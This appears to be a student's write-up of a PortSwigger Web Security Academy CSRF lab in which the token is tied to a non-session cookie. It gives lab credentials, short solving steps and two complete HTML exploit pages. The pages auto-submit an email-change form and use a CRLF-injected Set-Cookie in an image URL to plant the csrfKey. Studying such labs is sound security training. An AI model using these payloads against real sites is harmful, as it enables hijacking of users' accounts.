# CSRF where token is tied to non-session cookie

## This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

### HINT:

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```javascript
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

### step1

login weiner account
change email and send to repeter
try to change csrf code into repeater and test
csrf and csrfkey both are related to each other

### step2

login to carlos account
inspect login page for csrfkey and csrf token

![[csrf_token.png]]
![[csrfkey.png]]

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0ade0013041db8728074596200e7003b.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="exa@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="htsrRRjOPn24ZUczIAQWd2Rm9rBdjB5Y"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <img
      src="https://0ade0013041db8728074596200e7003b.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=AYQwOigWLF9sDxmw11TpMZxchGIHbSRM%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```
